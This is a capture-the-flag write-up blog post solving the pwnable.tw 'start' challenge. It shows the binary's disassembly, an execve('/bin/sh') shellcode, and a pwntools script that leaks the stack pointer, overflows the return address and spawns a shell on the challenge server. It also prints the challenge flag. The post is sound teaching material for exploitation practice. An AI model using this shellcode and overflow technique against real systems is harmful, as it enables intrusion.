 ```yaml
---
title: "pwnable.tw - start"
date: 2018-12-24 13:45
tags: [pwn]
categories: [pwn]
---
```

<!--more-->

Let's get some information on this binary.  
```bash
┌─[x0r19x91@syst3m]─[~/Desktop/pwning/start]
└──╼ $ pwn checksec start 
[*] '/home/x0r19x91/Desktop/pwning/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

We can execute code on the stack and PIE is disabled. So, the load address is fixed at 0x8048060. This is great !

```x86asm
08048060 <_start>:
 8048060:	54                   	push   esp
 8048061:	68 9d 80 04 08       	push   0x804809d
 8048066:	31 c0                	xor    eax,eax
 8048068:	31 db                	xor    ebx,ebx
 804806a:	31 c9                	xor    ecx,ecx
 804806c:	31 d2                	xor    edx,edx
 804806e:	68 43 54 46 3a       	push   0x3a465443
 8048073:	68 74 68 65 20       	push   0x20656874
 8048078:	68 61 72 74 20       	push   0x20747261
 804807d:	68 73 20 73 74       	push   0x74732073
 8048082:	68 4c 65 74 27       	push   0x2774654c
 8048087:	89 e1                	mov    ecx,esp
 8048089:	b2 14                	mov    dl,0x14
 804808b:	b3 01                	mov    bl,0x1
 804808d:	b0 04                	mov    al,0x4
 804808f:	cd 80                	int    0x80
 8048091:	31 db                	xor    ebx,ebx
 8048093:	b2 3c                	mov    dl,0x3c
 8048095:	b0 03                	mov    al,0x3
 8048097:	cd 80                	int    0x80
 8048099:	83 c4 14             	add    esp,0x14
 804809c:	c3                   	ret    

0804809d <_exit>:
 804809d:	5c                   	pop    esp
 804809e:	31 c0                	xor    eax,eax
 80480a0:	40                   	inc    eax
 80480a1:	cd 80                	int    0x80
```

The read syscall reads a maximum of 60 bytes, so our shellcode must be atmost 60 bytes. First let's write the shellcode to start a shell.  
```x86asm
    global _start

[ section .text ]

_start:
    jmp short next
back:
    pop ebx
    xor ecx, ecx
    xor edx, edx
    mov al, 11
    int 0x80
next:
    call back
    db '/bin/sh', 0
```

We can put this shellcode on the stack but we need the address of where the shellcode is placed i.e., we need the value of **esp**. Since there is a **write** syscall at **0x804808f** which writes from **esp**, if we modify the return address to **0x8048087**, we can print the value of **saved esp** along with 4 dwords from stack.  
Now, after leaking the **esp**, the **read** syscall is executed once more, reading 60 bytes from **leaked_esp-4**. We write 20 random bytes followed by the return address followed by the shellcode. So, the new return address is **leaked_esp+20**.

Here's the script  
```python
#!/usr/bin/env python2

from pwn import *

r = remote('chall.pwnable.tw', 10000)
payload = "A" * 20
payload += p32(0x8048087)
print r.recv(1024)
r.send(payload)

stack = r.recv(1024)
leak = int(stack[:4][::-1].encode('hex'), 16)
log.info('Leak -> %#08x' % leak)
log.info('Return Address -> %#08x' % (leak+0x14))

payload = "A" * 20 + p32(leak+0x14)
shellcode = "\xeb\x09\x5b\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf2\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00"
r.send(payload+shellcode)
r.sendline('cat /home/start/flag')
log.info('Flag -> %s', r.readline())
r.close()
```

Let's execute it !

```
┌─[x0r19x91@syst3m]─[~/Desktop/pwning/start]
└──╼ $ ./solve.py 
[+] Opening connection to chall.pwnable.tw on port 10000: Done
Let's start the CTF:
[*] Leak -> 0xffb9fa90
[*] Return Address -> 0xffb9faa4
[*] Flag -> FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}
[*] Closed connection to chall.pwnable.tw port 10000
```